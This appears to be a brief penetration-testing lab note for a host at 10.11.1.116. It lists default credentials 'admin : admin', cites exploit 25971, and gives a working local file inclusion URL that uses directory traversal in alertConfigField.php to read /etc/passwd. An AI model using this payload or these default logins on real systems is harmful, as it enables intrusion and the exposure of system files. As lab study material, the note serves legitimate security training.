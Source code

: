 admin : admin
LFI:
exploit 25971
```
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```